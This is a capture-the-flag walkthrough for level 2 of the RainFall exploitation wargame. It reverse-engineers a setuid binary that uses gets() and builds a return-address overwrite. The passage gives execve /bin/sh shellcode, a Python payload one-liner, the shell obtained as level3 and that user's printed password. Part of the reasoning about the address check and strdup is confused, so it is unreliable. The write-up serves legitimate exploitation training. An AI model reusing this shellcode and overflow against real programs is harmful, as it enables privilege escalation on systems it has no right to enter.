

# Rainfall Level 2 Guide
This guide will walk you through the process of finding the password for the `level3` user.

## Procedure

### 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level2
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
```

We can see that the `level2` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level3`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It waiting for an input, print it after pressing enter, and quit.

```bash
level2@RainFall:~$ ./level2 
g
g
level2@RainFall:~$ ./level2 
a
a
```

### 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level2.c](Ressources/ghidra_analyse_level2.c), and the reconstructed C code in [source.c](source.c).

### 3. Analysis

We find a main function that calls a function `p()`.
The `p()` function reads a line from `stdin` into the buffer `buffer` with `gets()`.
It then checks if the return address is in the `0xb0000000` range.
Example: `0xb7e5f430 & 0xb0000000 = 0xb0000000`.
If it is, it will print the return address and exit.
Else, it will print the buffer with `puts`, and copy the buffer with `strdup`, but the result is not used.

```c
void p(void)
{
    uintptr_t unaff_retaddr;
	char buffer[76];

	fflush(stdout); // Flush the output buffer
	gets(buffer); // Read a line from stdin into buffer
	if ((unaff_retaddr & 0xb0000000) == 0xb0000000)
	{
		printf("(%p)\n", (void *)unaff_retaddr);
		exit(1);
	}
	puts(buffer);
    strdup(buffer);
}
```
`fflush(stdout)` ensuring that all data is written to the standard output.

The check `if ((unaff_retaddr & 0xb0000000) == 0xb0000000)` is a security measure to prevent buffer overflow attacks. It protects the `0xb0000000` range from being overwritten. This range is the range of the stack where the return address is stored.

But the program uses `strdup` to copy the buffer, which is a function that allocates memory on the heap. The heap is not protected by the check, so we can overwrite the return address by overflowing the buffer.

### 4. Analysis with ltrace

`ltrace` is a debugging utility in Linux used to display the calls a process makes to shared libraries.
```bash
level2@RainFall:~$ ltrace ./level2
[...]
fflush(0xb7fd1a20)                                                             = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5
)                                  = 0xbffff70c
puts(""
)                                                                       = 1
strdup("")                                                                     = 0x0804a008
+++ exited (status 8) +++
```
We can see that the `strdup` function always allocates memory (with `malloc`) at `0x0804a008`.

### 5. Shellcode injection

The shellcode injection is a technique used to exploit a buffer overflow vulnerability. It consists of injecting shellcode into the buffer to execute this code when the program returns.

We will inject a shellcode that will spawn a shell. We will use the following shellcode:
```c
execve("/bin/sh")
```
In machine language:
```c
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

### 6. EIP overwrite

`EIP` (Extended Instruction Pointer) is a register that contains the address of the next instruction to be executed. It is stored on the stack, and we can overwrite it by overflowing the buffer.

We will inject a string of 100 bytes to overflow the buffer and overwrite the return address with the address of our shellcode.
```bash
level2@RainFall:~$ gdb level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Ba1Ca2Da3Ea4Fa5Ga6Ha7Ia8Ja9Kb0Lb1Mb2Nb3Ob4Pb5Qb6Rb7Sb8Tb9Uc0Vc1Wc2Xc3Yc4Zc5Ad6Be7Cf8Dg9Eh0Fi1Gj2H

Program received signal SIGSEGV, Segmentation fault.
0x37654236 in ?? ()
```
The program crashes with a segmentation fault.
We use `info registers eip` to get the value of the `EIP` register.
```bash
(gdb) info registers eip
eip            0x37654236	0x37654236
```
We can see that the `EIP` register is overwritten with `0x37654236`.

- 0x37 = 55, '7' in ASCII
- 0x65 = 101, 'e' in ASCII
- 0x42 = 66, 'B' in ASCII
- 0x36 = 54, '6' in ASCII

`0x37654236` is the ASCII representation of `7eB6`.
We can see this string in our input, after 80 characters.
***We want replace this string with the starting address of our shellcode***.
We know the address of return of `strdup` is `0x0804a008` (starting address of space allocated by `strdup`).
If we write our shellcode at the beginning of the buffer, ***the address of our shellcode will be the return address of `strdup`***.
***So we will replace the EIP address (`0x37654236`) with the return address of `strdup` (`0x0804a008`)***.



### 7. Exploitation
Our buffer will be constructed as follows:
```c
buffer = shellcode + padding + strdup_address
```
```c
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
strdup_address = 0x0804a008 = "\x08\xa0\x04\x08"
```
`shellcode` has 21 bytes. So `padding` will be 80 - 21 = 59 bytes.
```c
padding = "\0x41" * 59
```
We construct our buffer:
```c
buffer = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\0x41" * 59 + "\x08\xa0\x04\x08"
```
We write our buffer in a file:
```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x41" * 59 + "\x08\xa0\x04\x08"' > /tmp/buffer
```
Then, we use the file as input for the binary:
```bash
level2@RainFall:~$ cat /tmp/buffer - | ./level2
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�

```
***Note:*** The `-` in the `cat` command is used to read from `stdin` after reading from the file. It indicates to `level2` that after reading the file, it should continue reading from `stdin`, for keep `level2` running and use the new op

We get a shell. With `whoami`, we can see that we are `level3`.
```bash
whoami
level3
```
We can read the password in the `level3` home directory.
```bash
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
```

Congratulations!
We can now connect to the `level3` user with this password.
```bash
level2@RainFall:~$ su level3
Password:
level3@RainFall:~$
```

NOTE POUR MOI:
EN GROS, strdup alloue de la memoire pour un buffer, en fonction de la taille de ce buffer. La taille du buffer est definie dans notre cas a 76. Si on ecrit plus de char dans le buffer que la taille max du buffer, on va continuer a ecrire dans une partie de la memoire non allouee, et donc ecraser des donnees. Dans notre cas, on va ecraser l'EIP.
L'EIP est l'adresse de la prochaine instruction a executer.
Si on l'ecrase, on peut la remplacer par l'adresse d'une autre instruction, et donc executer cette instruction a la place de celle prevue. 
Dans notre cas, on va remplacer l'EIP par l'adresse de notre shellcode, pour executer notre shellcode.
Vu que l'on a mis notre shellcode au debut du buffer, il fait partie des donnees allouees par strdup. Donc l'adresse de retour de strdup est l'adresse de debut de notre shellcode !
Donc nous voulons mettre l'adresse de retour de strdup dans l'EIP.
Nous connaissons l'adresse de retour de strdup car on l'a vu avec ltrace, c'est 0x0804a008.
Donc on construit notre buffer de la maniere suivante:
buffer = shellcode + padding + strdup_address